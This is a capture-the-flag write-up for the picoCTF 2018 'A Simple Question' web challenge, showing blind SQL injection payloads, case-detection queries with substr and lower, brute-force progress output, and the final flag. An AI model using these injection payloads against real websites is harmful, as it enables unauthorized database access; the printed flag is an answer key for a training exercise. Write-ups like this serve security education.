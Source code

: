 # A Simple Question
Web Exploitation - 650 points

## Challenge 
> There is a website running at http://2018shell2.picoctf.com:28120 (link). Try to see if you can answer its question.


## Solution

Website shows a query box annd upon submission, it will show us the SQL query

	SQL query: SELECT * FROM answers WHERE answer='testing'
	Wrong.

So we can try SQL injection using `' or 1=1;--`:

	SQL query: SELECT * FROM answers WHERE answer='' or 1=1;--'
	You are so close.

Using `' or answer like '%`:
	
	SQL query: SELECT * FROM answers WHERE answer='' or answer like '%'
	You are so close.

Seems like it will either show `Wrong.` for false and `You are so close.` for true.

We can try bruteforcing char by char


After a while, I got the following but it wasn't the answer

	Progress: 41andsixsixths [14]

---

According to some people on the forums, LIKE could be case-insensitive depending on the database.

Checking for `' or answer = '41andsixsixths` give me `Wrong.`

But checking for `' or lower(answer) = '41andsixsixths` gives me `You are so close.`

---

[Looking at the possible functions for SQLite](https://www.sqlite.org/lang_corefunc.html
), I came up with this to check each index if it is uppercase

	' or substr(answer, 3, 1) <> lower(substr(answer, 3, 1)) ;--

Automate it in our script to get the capitals
	
	Case insensitive answer:  41andsixsixths
	Progress: ['4', '1', 'a', 'n', 'd', 's', 'i', 'x', 's', 'i', 'x', 't', 'h', 's'] [Checking 0]
	Progress: ['4', '1', 'a', 'n', 'd', 's', 'i', 'x', 's', 'i', 'x', 't', 'h', 's'] [Checking 1]
	Progress: ['4', '1', 'a', 'n', 'd', 's', 'i', 'x', 's', 'i', 'x', 't', 'h', 's'] [Checking 2]
	Progress: ['4', '1', 'A', 'n', 'd', 's', 'i', 'x', 's', 'i', 'x', 't', 'h', 's'] [Checking 3]
	Progress: ['4', '1', 'A', 'n', 'd', 's', 'i', 'x', 's', 'i', 'x', 't', 'h', 's'] [Checking 4]
	Progress: ['4', '1', 'A', 'n', 'd', 's', 'i', 'x', 's', 'i', 'x', 't', 'h', 's'] [Checking 5]
	Progress: ['4', '1', 'A', 'n', 'd', 'S', 'i', 'x', 's', 'i', 'x', 't', 'h', 's'] [Checking 6]
	Progress: ['4', '1', 'A', 'n', 'd', 'S', 'i', 'x', 's', 'i', 'x', 't', 'h', 's'] [Checking 7]
	Progress: ['4', '1', 'A', 'n', 'd', 'S', 'i', 'x', 's', 'i', 'x', 't', 'h', 's'] [Checking 8]
	Progress: ['4', '1', 'A', 'n', 'd', 'S', 'i', 'x', 'S', 'i', 'x', 't', 'h', 's'] [Checking 9]
	Progress: ['4', '1', 'A', 'n', 'd', 'S', 'i', 'x', 'S', 'i', 'x', 't', 'h', 's'] [Checking 10]
	Progress: ['4', '1', 'A', 'n', 'd', 'S', 'i', 'x', 'S', 'i', 'x', 't', 'h', 's'] [Checking 11]
	Progress: ['4', '1', 'A', 'n', 'd', 'S', 'i', 'x', 'S', 'i', 'x', 't', 'h', 's'] [Checking 12]
	Progress: ['4', '1', 'A', 'n', 'd', 'S', 'i', 'x', 'S', 'i', 'x', 't', 'h', 's'] [Checking 13]
	Success: 41AndSixSixths

## Flag

	SQL query: SELECT * FROM answers WHERE answer='41AndSixSixths'
	Perfect!
	Your flag is: picoCTF{qu3stions_ar3_h4rd_73139cd9}
